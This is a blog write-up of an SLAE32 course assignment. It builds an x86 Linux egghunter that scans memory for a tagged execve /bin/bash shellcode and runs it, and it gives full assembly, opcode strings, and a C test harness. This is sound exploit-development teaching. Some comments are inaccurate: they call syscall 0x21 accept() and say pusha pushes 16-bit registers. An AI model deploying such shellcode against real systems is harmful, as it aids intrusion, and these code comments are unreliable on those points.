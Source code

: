 ```yaml
---
title: SLAE32 Assignment 3 -- Egghunter Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - egghunter
  - execve
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcode
---
```

![](/assets/images/SLAE32.png)
```console
This blog post has been created for completing the requirements
 of the SecurityTube Linux Assembly Expert certification:
http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
	- Now at: https://www.pentesteracademy.com/course?id=3
SLAE/Student ID: PA-10913
```
## Overview
For our third assignment in the SLAE32 course we were tasked with creating an `egghunter`.  
What is an Egg Hunter?   
+ An Egghunter is a piece of injectable shellcode that will search the memory of the running program for the a specific, larger payload. 
+ Once the Egghunter finds the larger payload, it will pass program control to it by executing it.  

The larger payload that our Egghunter will search for and execute will be the `execve-stack` shellcode provided in the SLAE32 course.  

## Egghunter Assembly Code
```nasm
; Filename: eggHunter.asm
; Author:   boku
global _start
_start:
; Configure Egg in EBX
  mov ebx, 0x50905090
; Clear EAX, ECX, EDX
  xor ecx, ecx         ; Clears the ECX Register. 
  mul ecx              ; ECX*EAX. Result is stored in EDX:EAX. 
; Jump here to move forward a memory page
nextPage:              ; Increments the memory address stored in EDX by 4096 Bytes (a memory page)
  or dx, 0xfff         ; 0xfff = 4096. This is the size of Linux Memory pages.
; Jump here to move forward 4 bytes on a memory page
nextAddress:           ; Increments the memory address stored in EDX by 4 Bytes 
  inc edx              ; in combo with the or dx above, this moves the memory scanner EDX by a page
                       ; in combo with the cmp [edx+0x4] below, this aligns EDX so it will scan the
                       ;  next memory address
 ; 4095*2=8190+1=8191. 
 ;                                      --> (inc edx) 4095+1  -->  (inc edx) 8191+1
 ; or dx when edx is: \x00000000        |   \x00001000 = 4096 |    \x00002000 = 8192
 ;               OR   \x00000FFF        |   \x00000FFF = 4095 |    \x00000FFF = 4095
 ;          RESULTS:  \x00000FFF = 4095--   \x00001FFF = 8191--    \x00002FFF = 12287

; Save the registers before accept() system-call because they will be altered after the call
 pusha                 ; Pushes all 16-bit registers onto the stack
 lea ebx, [edx+0x4]    ; Increments the Memory Address of EDX by 4 Bytes.
                       ;  Stores the value stored at EDX+4 into the EBX register
 mov al, 0x21          ; System Call for accept() 
 int 0x80              ; Executes accept()
; Check if memory page is accessible
 cmp al, 0xf2          ; The return value of accept() is stored in EAX. 
                       ;  Checks if access is denied
; Load the registers that were stored onto the stack

 popa                  ; Pops all 16-bit registers from the stack
; if accept() could not access the memory page, go to the next page
 jz nextPage           ; If page access is denied, check the next memory page 
; if accept() could access the memory page, 
;  check if the egg is in the first memory location on the page
 cmp [edx], ebx
; if the egg is not there, then increment our location 
;  on the page by 1 byte and check there
 jnz nextAddress
; if the egg is there, check the next for bytes to make 
;  sure it is our payload and not the egghunter itself.
 cmp [edx+0x4], ebx
; if the egg isn't there then it is a fluke or 
;  is our egghunter. Check the next address.
 jnz nextAddress
; if the egg is there twice, then we found our payload. 
;  Jump to the memory location on that page
;  and transfer control to our payload.
 jmp edx
```

## Compiling and Testing the EggHunter
### Compiling the EggHunter Assembly Code
```nasm 
root# nasm -f elf32 eggHunter.asm -o eggHunter.o
root# ld -z execstack eggHunter.o -o eggHunter
```

### Compiling a Payload for the EggHunter to Find
#### SLAE32 Execve-Stack `/bin/bash` Shellcode
```nasm
; Filename: execve-stack.nasm
; Author:  Vivek Ramachandran
; Website:  http://securitytube.net
; Training: http://securitytube-training.com

global _start

section .text
_start:

; PUSH the first null dword
xor eax, eax
push eax
; PUSH ////bin/bash (12)
push 0x68736162
push 0x2f6e6962
push 0x2f2f2f2f
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 11
int 0x80
```
#### Compiling the Payload
```console
t# nasm -f elf32 execve-stack.nasm -p execve-stack.o
root# ld -z execstack execve-stack.o -o execve-stack
```

#### Testing the Payload
```console
root# ps -p $$
  PID TTY          TIME CMD
14383 pts/5    00:00:00 bash
root# ./execve-stack 
root# ps -p $$
  PID TTY          TIME CMD
  584 pts/5    00:00:00 bash
```

### Testing the EggHunter in a Host Program
#### Grabbing the Hex for the Execve Shellcode
```console
root# objdump -d execve-stack | grep '[0-9a-f]:' | grep -v 'file' | \
> cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | \
> sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | \
> sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f"
"\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
#### Grabbing the Hex from our EggHunter Shellcode
```console
root# objdump -d eggHunter | grep '[0-9a-f]:' | grep -v 'file' | \
> cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | \
> sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | \
> sed 's/^/"/' | sed 's/$/"/g'
"\xbb"
"\x90\x50\x90\x50"  # Our Egg
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21"
"\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9"
"\xff\xe2"
```
#### Host Program in C
```c
// Filename: testEggHunter.c
// Author:   boku
#include <stdio.h>
#include <string.h>
// This is the egg for our eggHunter
// the egg should be 4 bytes and be executable
#define egg "\x90\x50\x90\x50"

// Put two eggs in front of our payload
// This allows our eggHunter to find it in memory
unsigned char payload[] =
egg
egg
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f"
"\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

// Replace the hardcoded egg with a variable.
// This allows us to easily change the egg for our eggHunter.
unsigned char egghunter[] =
"\xbb"
egg
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21"
"\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9"
"\xff\xe2";

// This program will run our egghunter.
// Our eggHunter will search memory until it finds 2 eggs.
// Once the payload is found it will pass control to the payload.

int main()
{
    printf("Memory Location of Payload: %p\n", payload);
    printf("Size of Egghunter:          %d\n", strlen(egghunter));
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

#### Compiling the Host Program 
```c
root# gcc testEggHunter.c -o testEggHunter -fno-stack-protector -z execstack
```

#### Testing the EggHunter in the Host Program
```console
root# ps -p $$
  PID TTY          TIME CMD
14383 pts/5    00:00:00 bash
root# ./testEggHunter 
Memory Location of Payload: 0x804a040
Size of Egghunter:          39
root# ps -p $$
  PID TTY          TIME CMD
 3048 pts/5    00:00:00 bash
```
+ Before we run our program we get the Program ID of our bash shell.
  - Our `bash` PID is 14383.
+ After running our eggHunter we check to see that it found our payload, and spawned a new bash shell.
  - Our `bash` PID is now 3048. 
  - We have successfully spawned a new bash shell.
